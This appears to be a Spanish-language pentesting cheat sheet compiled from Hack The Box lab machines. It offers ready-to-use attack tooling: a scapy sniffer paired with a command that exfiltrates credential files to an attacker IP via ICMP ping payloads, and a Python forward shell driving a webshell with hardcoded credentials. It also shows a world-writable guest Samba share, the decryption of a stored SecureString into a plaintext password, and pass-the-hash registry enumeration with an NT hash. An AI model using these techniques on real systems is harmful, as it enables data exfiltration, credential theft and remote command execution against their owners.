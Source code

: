 # EXTRA

## Exfiltración de datos por ICMP

### Sniffer

```python
#!/usr/bin/python3

from scapy.all import *
import sys, signal

def def_handler(sig, frame):
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
interface = 'tun0'

def data_parser(packet):
    if packet.haslayer(ICMP):
        if packet[ICMP].type == 8:
            data = packet[ICMP].load[-4:].decode("utf-8")
            print(data, flush=True, end='')
    

if __name__ == '__main__': # xxd -p -c 4 /etc/hosts | while read i; do echo $i | xxd -ps -r; done

    sniff(iface=interface, prn=data_parser)
```

### Comando a ejecutar

```null
command=xxd -p -c 4 /home/loki/cred* | while read i; do ping -c 1 -p $i 10.10.16.2; done
```

## Obtención ACLs

```null
loki@Mischief:~$ getfacl /bin/su 
getfacl: Removing leading '/' from absolute path names
# file: bin/su
# owner: root
# group: root
# flags: s--
user::rwx
user:loki:r--
group::r-x
mask::r-x
other::r-x
```

## Compartir recurso SAMBA

```null
service smbd start
```

```null
net usershare add shared $(pwd) '' 'Everyone:F' 'guest_ok=y'
```

## Uso de authbind

En caso de no disponer el privilegio para abrir ciertos puertos, se puede utilizar este comando si hay una regla establecida

```null
atanas@kotarak-dmz:/etc/authbind/byport$ authbind python3 -m http.server 80
```

## Forward Shell Python

```python
from base64 import b64encode
from random import randrange
import requests, sys, pdb, signal

def def_handler(sig, frame):
    print("\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
main_url = "http://10.10.10.67/webdav_test_inception/cmd.php?cmd="
session = randrange(1, 9999)
stdin = "/dev/shm/strin.%s" % session
stdout = "/dev/shm/stdout.%s" % session

def RunCmd(command):

    headers = {
        'Authorization': 'Basic d2ViZGF2X3Rlc3RlcjpiYWJ5Z3VybDY5'
    }

    command = b64encode(command.encode()).decode()

    post_data = {
        'cmd': 'echo %s | base64 -d | bash' % command
    }

    r = requests.post(main_url, data=post_data, headers=headers, timeout=2)

    return r.text


def WriteCmd(command):

    headers = {
        'Authorization': 'Basic d2ViZGF2X3Rlc3RlcjpiYWJ5Z3VybDY5'
    }

    command = b64encode(command.encode()).decode()

    post_data = {
        'cmd': 'echo %s | base64 -d > %s' % (command, stdin)
    }

    r = requests.post(main_url, data=post_data, headers=headers, timeout=2)

    return r.text

def ReadCmd(command):

    ReadOutput = """/bin/cat %s""" % stdout

    response = RunCmd(ReadOutput)

    return response

def SetupShell():
    NamedPipes = """mkfifo %s; tail -f %s | /bin/sh 2>&1 > %s""" % (stdin, stdin, stdout)

    try:
        RunCmd(NamedPipes)
    except:
        None
    
    return None

SetupShell()

if __name__ == '__main__':

    while True:
        command = input("> ")
        
        WriteCmd(command + "\n")
        response = ReadCmd(command)
        print(response)

        ClearOutput = """echo '' > %s """ % stdout
        RunCmd(ClearOutput)
```

## Solución Java 11 / 16 Error incompatibilidad

```null
update-alternatives --config java
```

## Captura de pantalla Windows

```null
PS C:\Windows\System32\spool\drivers\color> .\nircmd.exe savescreenshot captura.png
```

## Convertir SecureString a texto plano

```null
C:\Users\nico\Desktop>powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.getNetworkCredential() | Format-List *"
powershell -c "$cred = Import-CliXml -Path cred.xml; $cred.getNetworkCredential() | Format-List *"


UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```

## Conversión archivo a base64 Windows

```null
PS C:\Users\k.svensson\AppData\Roaming\stickynotes\Local Storage\leveldb> [convert]::ToBase64String((Get-Content -path "000003.log" -Encoding byte))
```

## Enumeración de registros

```null
reg.py htb.local/henry.vinson@APT -hashes :e53d87d42adaa3ca32bdb34a876cbffb query -keyName HKU
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[!] Cannot check RemoteRegistry status. Hoping it is started...
HKU
HKU\Console
HKU\Control Panel
HKU\Environment
HKU\Keyboard Layout
HKU\Network
HKU\Software
HKU\System
HKU\Volatile Environment
```

## Listar ACLs a través de montura CIFS

```null
smbcacls "//10.10.10.103/Department Shares" Users
```

